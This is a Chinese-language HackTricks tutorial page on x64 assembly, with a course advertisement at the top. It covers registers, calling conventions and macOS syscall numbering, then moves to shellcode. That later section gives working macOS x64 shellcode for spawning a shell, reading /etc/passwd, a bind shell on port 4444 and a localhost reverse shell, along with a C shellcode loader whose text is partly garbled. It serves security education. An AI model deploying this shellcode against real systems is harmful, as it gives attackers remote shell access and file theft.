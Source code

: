 # Introduction to x64

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## **x64简介**

x64，也称为x86-64，是一种主要用于台式机和服务器计算的64位处理器架构。起源于由英特尔生产的x86架构，后来被AMD采用并命名为AMD64，是今天个人计算机和服务器中普遍采用的架构。

### **寄存器**

x64扩展了x86架构，具有**16个通用寄存器**，标记为`rax`、`rbx`、`rcx`、`rdx`、`rbp`、`rsp`、`rsi`、`rdi`，以及`r8`到`r15`。每个寄存器可以存储**64位**（8字节）的值。这些寄存器还具有32位、16位和8位的子寄存器，用于兼容性和特定任务。

1. **`rax`** - 传统上用于从函数中返回值。
2. **`rbx`** - 经常用作内存操作的**基址寄存器**。
3. **`rcx`** - 通常用于**循环计数器**。
4. **`rdx`** - 用于包括扩展算术运算在内的各种角色。
5. **`rbp`** - 栈帧的**基指针**。
6. **`rsp`** - **栈指针**，跟踪栈的顶部。
7. **`rsi`** 和 **`rdi`** - 用于字符串/内存操作中的**源**和**目的**索引。
8. **`r8`** 到 **`r15`** - x64中引入的额外通用寄存器。

### **调用约定**

x64的调用约定在操作系统之间有所不同。例如：

* **Windows**：前**四个参数**通过寄存器\*\*`rcx`**、**`rdx`**、**`r8`**和**`r9`**传递。额外的参数被推送到栈上。返回值在**`rax`\*\*中。
* **System V（在类UNIX系统中常用）**：前**六个整数或指针参数**通过寄存器\*\*`rdi`**、**`rsi`**、**`rdx`**、**`rcx`**、**`r8`**和**`r9`**传递。返回值也在**`rax`\*\*中。

如果函数有超过六个输入，则**其余参数将通过栈传递**。**RSP**，即栈指针，必须是**16字节对齐**，这意味着在进行任何调用之前，它指向的地址必须能被16整除。这意味着通常我们需要确保我们的shellcode在进行函数调用之前RSP被正确对齐。然而，在实践中，即使不满足这一要求，系统调用也经常能够正常工作。

### Swift中的调用约定

Swift有自己的**调用约定**，可以在[**https://github.com/apple/swift/blob/main/docs/ABI/CallConvSummary.rst#x86-64**](https://github.com/apple/swift/blob/main/docs/ABI/CallConvSummary.rst#x86-64)找到。

### **常见指令**

x64指令具有丰富的集合，保持与早期x86指令的兼容性并引入新指令。

* **`mov`**：将一个值从一个**寄存器**或**内存位置**移动到另一个。
* 示例：`mov rax, rbx` — 将`rbx`中的值移动到`rax`。
* **`push`** 和 **`pop`**：将值推送到/从**栈**中弹出。
* 示例：`push rax` — 将`rax`中的值推送到栈上。
* 示例：`pop rax` — 将栈顶值弹出到`rax`中。
* **`add`** 和 **`sub`**：**加法**和**减法**操作。
* 示例：`add rax, rcx` — 将`rax`和`rcx`中的值相加，并将结果存储在`rax`中。
* **`mul`** 和 **`div`**：**乘法**和**除法**操作。注意：这些操作对操作数的使用有特定行为。
* **`call`** 和 **`ret`**：用于**调用**和**从函数返回**。
* **`int`**：用于触发软件**中断**。例如，在32位x86 Linux中，`int 0x80`用于系统调用。
* **`cmp`**：比较两个值并根据结果设置CPU的标志。
* 示例：`cmp rax, rdx` — 比较`rax`和`rdx`。
* **`je`、`jne`、`jl`、`jge`等**：**条件跳转**指令，根据先前的`cmp`或测试结果改变控制流。
* 示例：在`cmp rax, rdx`指令之后，`je label` — 如果`rax`等于`rdx`，则跳转到`label`。
* **`syscall`**：在一些x64系统（如现代Unix）中用于**系统调用**。
* **`sysenter`**：在某些平台上优化的**系统调用**指令。

### **函数序言**

1. **推送旧的基指针**：`push rbp`（保存调用者的基指针）
2. **将当前栈指针移动到基指针**：`mov rbp, rsp`（为当前函数设置新的基指针）
3. **为本地变量在栈上分配空间**：`sub rsp, <size>`（其中`<size>`是所需字节数）

### **函数结语**

1. **将当前基指针移动到栈指针**：`mov rsp, rbp`（释放本地变量）
2. **从栈中弹出旧的基指针**：`pop rbp`（恢复调用者的基指针）
3. **返回**：`ret`（将控制返回给调用者）

## macOS

### 系统调用

有不同类别的系统调用，你可以[**在这里找到它们**](https://opensource.apple.com/source/xnu/xnu-1504.3.12/osfmk/mach/i386/syscall\_sw.h)**:**

```c
#define SYSCALL_CLASS_NONE	0	/* Invalid */
#define SYSCALL_CLASS_MACH	1	/* Mach */
#define SYSCALL_CLASS_UNIX	2	/* Unix/BSD */
#define SYSCALL_CLASS_MDEP	3	/* Machine-dependent */
#define SYSCALL_CLASS_DIAG	4	/* Diagnostics */
#define SYSCALL_CLASS_IPC	5	/* Mach IPC */
```

然后，您可以在[**此网址**](https://opensource.apple.com/source/xnu/xnu-1504.3.12/bsd/kern/syscalls.master)**中找到每个系统调用号：**

```c
0	AUE_NULL	ALL	{ int nosys(void); }   { indirect syscall }
1	AUE_EXIT	ALL	{ void exit(int rval); }
2	AUE_FORK	ALL	{ int fork(void); }
3	AUE_NULL	ALL	{ user_ssize_t read(int fd, user_addr_t cbuf, user_size_t nbyte); }
4	AUE_NULL	ALL	{ user_ssize_t write(int fd, user_addr_t cbuf, user_size_t nbyte); }
5	AUE_OPEN_RWTC	ALL	{ int open(user_addr_t path, int flags, int mode); }
6	AUE_CLOSE	ALL	{ int close(int fd); }
7	AUE_WAIT4	ALL	{ int wait4(int pid, user_addr_t status, int options, user_addr_t rusage); }
8	AUE_NULL	ALL	{ int nosys(void); }   { old creat }
9	AUE_LINK	ALL	{ int link(user_addr_t path, user_addr_t link); }
10	AUE_UNLINK	ALL	{ int unlink(user_addr_t path); }
11	AUE_NULL	ALL	{ int nosys(void); }   { old execv }
12	AUE_CHDIR	ALL	{ int chdir(user_addr_t path); }
[...]
```

因此，为了从**Unix/BSD类**调用`open`系统调用（**5**），您需要将其添加为：`0x2000000`

因此，调用open的系统调用号将是`0x2000005`

### Shellcodes

要编译：

{% code overflow="wrap" %}
```bash
nasm -f macho64 shell.asm -o shell.o
ld -o shell shell.o -macosx_version_min 13.0 -lSystem -L /Library/Developer/CommandLineTools/SDKs/MacOSX.sdk/usr/lib
```
{% endcode %}

提取字节：

{% code overflow="wrap" %}
```bash
# Code from https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/b729f716aaf24cbc8109e0d94681ccb84c0b0c9e/helper/extract.sh
for c in $(objdump -d "shell.o" | grep -E '[0-9a-f]+:' | cut -f 1 | cut -d : -f 2) ; do
echo -n '\\x'$c
done

# Another option
otool -t shell.o | grep 00 | cut -f2 -d$'\t' | sed 's/ /\\x/g' | sed 's/^/\\x/g' | sed 's/\\x$//g'
```
{% endcode %}

<details>

<summary>用于测试shellcode的C代码</summary>

\`\`\`c // code from https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/helper/loader.c // gcc loader.c -o loader #include #include #include #include

int (\*sc)();

char shellcode\[] = "";

int main(int argc, char \*\*argv) { printf("\[>] Shellcode Length: %zd Bytes\n", strlen(shellcode));

void \*ptr = mmap(0, 0x1000, PROT\_WRITE | PROT\_READ, MAP\_ANON | MAP\_PRIVATE | MAP\_JIT, -1, 0);

if (ptr == MAP\_FAILED) { perror("mmap"); exit(-1); } printf("\[+] SUCCESS: mmap\n"); printf(" |-> Return = %p\n", ptr);

void \*dst = memcpy(ptr, shellcode, sizeof(shellcode)); printf("\[+] SUCCESS: memcpy\n"); printf(" |-> Return = %p\n", dst);

int status = mprotect(ptr, 0x1000, PROT\_EXEC | PROT\_READ);

if (status == -1) { perror("mprotect"); exit(-1); } printf("\[+] SUCCESS: mprotect\n"); printf(" |-> Return = %d\n", status);

printf("\[>] Trying to execute shellcode...\n");

sc = ptr; sc();

return 0; }

````
</details>

#### Shell

取自[**这里**](https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/shell.s)并进行解释。

<div data-gb-custom-block data-tag="tabs">

<div data-gb-custom-block data-tag="tab" data-title='使用 adr'>

```armasm
bits 64
global _main
_main:
call    r_cmd64
db '/bin/zsh', 0
r_cmd64:                      ; the call placed a pointer to db (argv[2])
pop     rdi               ; arg1 from the stack placed by the call to l_cmd64
xor     rdx, rdx          ; store null arg3
push    59                ; put 59 on the stack (execve syscall)
pop     rax               ; pop it to RAX
bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall
````

```armasm
bits 64
global _main

_main:
xor     rdx, rdx          ; zero our RDX
push    rdx               ; push NULL string terminator
mov     rbx, '/bin/zsh'   ; move the path into RBX
push    rbx               ; push the path, to the stack
mov     rdi, rsp          ; store the stack pointer in RDI (arg1)
push    59                ; put 59 on the stack (execve syscall)
pop     rax               ; pop it to RAX
bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall
```

**使用 cat 命令读取**

目标是执行 `execve("/bin/cat", ["/bin/cat", "/etc/passwd"], NULL)`，因此第二个参数 (x1) 是一个参数数组 (在内存中意味着地址的堆栈)。

```armasm
bits 64
section .text
global _main

_main:
; Prepare the arguments for the execve syscall
sub rsp, 40         ; Allocate space on the stack similar to `sub sp, sp, #48`

lea rdi, [rel cat_path]   ; rdi will hold the address of "/bin/cat"
lea rsi, [rel passwd_path] ; rsi will hold the address of "/etc/passwd"

; Create inside the stack the array of args: ["/bin/cat", "/etc/passwd"]
push rsi   ; Add "/etc/passwd" to the stack (arg0)
push rdi   ; Add "/bin/cat" to the stack (arg1)

; Set in the 2nd argument of exec the addr of the array
mov rsi, rsp    ; argv=rsp - store RSP's value in RSI

xor rdx, rdx    ; Clear rdx to hold NULL (no environment variables)

push    59      ; put 59 on the stack (execve syscall)
pop     rax     ; pop it to RAX
bts     rax, 25 ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall         ; Make the syscall

section .data
cat_path:      db "/bin/cat", 0
passwd_path:   db "/etc/passwd", 0
```

**使用 sh 调用命令**

```armasm
bits 64
section .text
global _main

_main:
; Prepare the arguments for the execve syscall
sub rsp, 32           ; Create space on the stack

; Argument array
lea rdi, [rel touch_command]
push rdi                      ; push &"touch /tmp/lalala"
lea rdi, [rel sh_c_option]
push rdi                      ; push &"-c"
lea rdi, [rel sh_path]
push rdi                      ; push &"/bin/sh"

; execve syscall
mov rsi, rsp                  ; rsi = pointer to argument array
xor rdx, rdx                  ; rdx = NULL (no env variables)
push    59                    ; put 59 on the stack (execve syscall)
pop     rax                   ; pop it to RAX
bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall

_exit:
xor rdi, rdi                  ; Exit status code 0
push    1                     ; put 1 on the stack (exit syscall)
pop     rax                   ; pop it to RAX
bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall

section .data
sh_path:        db "/bin/sh", 0
sh_c_option:    db "-c", 0
touch_command:  db "touch /tmp/lalala", 0
```

**绑定 shell**

绑定 shell 来自 [https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html](https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html) 在 **端口 4444** 上。

```armasm
section .text
global _main
_main:
; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
xor  rdi, rdi
mul  rdi
mov  dil, 0x2
xor  rsi, rsi
mov  sil, 0x1
mov  al, 0x2
ror  rax, 0x28
mov  r8, rax
mov  al, 0x61
syscall

; struct sockaddr_in {
;         __uint8_t       sin_len;
;         sa_family_t     sin_family;
;         in_port_t       sin_port;
;         struct  in_addr sin_addr;
;         char            sin_zero[8];
; };
mov  rsi, 0xffffffffa3eefdf0
neg  rsi
push rsi
push rsp
pop  rsi

; bind(host_sockid, &sockaddr, 16)
mov  rdi, rax
xor  dl, 0x10
mov  rax, r8
mov  al, 0x68
syscall

; listen(host_sockid, 2)
xor  rsi, rsi
mov  sil, 0x2
mov  rax, r8
mov  al, 0x6a
syscall

; accept(host_sockid, 0, 0)
xor  rsi, rsi
xor  rdx, rdx
mov  rax, r8
mov  al, 0x1e
syscall

mov rdi, rax
mov sil, 0x3

dup2:
; dup2(client_sockid, 2)
;   -> dup2(client_sockid, 1)
;   -> dup2(client_sockid, 0)
mov  rax, r8
mov  al, 0x5a
sub  sil, 1
syscall
test rsi, rsi
jne  dup2

; execve("//bin/sh", 0, 0)
push rsi
mov  rdi, 0x68732f6e69622f2f
push rdi
push rsp
pop  rdi
mov  rax, r8
mov  al, 0x3b
syscall
```

**反向Shell**

从[https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html](https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html)获取反向shell。反向shell连接到**127.0.0.1:4444**

```armasm
section .text
global _main
_main:
; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
xor  rdi, rdi
mul  rdi
mov  dil, 0x2
xor  rsi, rsi
mov  sil, 0x1
mov  al, 0x2
ror  rax, 0x28
mov  r8, rax
mov  al, 0x61
syscall

; struct sockaddr_in {
;         __uint8_t       sin_len;
;         sa_family_t     sin_family;
;         in_port_t       sin_port;
;         struct  in_addr sin_addr;
;         char            sin_zero[8];
; };
mov  rsi, 0xfeffff80a3eefdf0
neg  rsi
push rsi
push rsp
pop  rsi

; connect(sockid, &sockaddr, 16)
mov  rdi, rax
xor  dl, 0x10
mov  rax, r8
mov  al, 0x62
syscall

xor rsi, rsi
mov sil, 0x3

dup2:
; dup2(sockid, 2)
;   -> dup2(sockid, 1)
;   -> dup2(sockid, 0)
mov  rax, r8
mov  al, 0x5a
sub  sil, 1
syscall
test rsi, rsi
jne  dup2

; execve("//bin/sh", 0, 0)
push rsi
mov  rdi, 0x68732f6e69622f2f
push rdi
push rsp
pop  rdi
xor  rdx, rdx
mov  rax, r8
mov  al, 0x3b
syscall
```



</details>
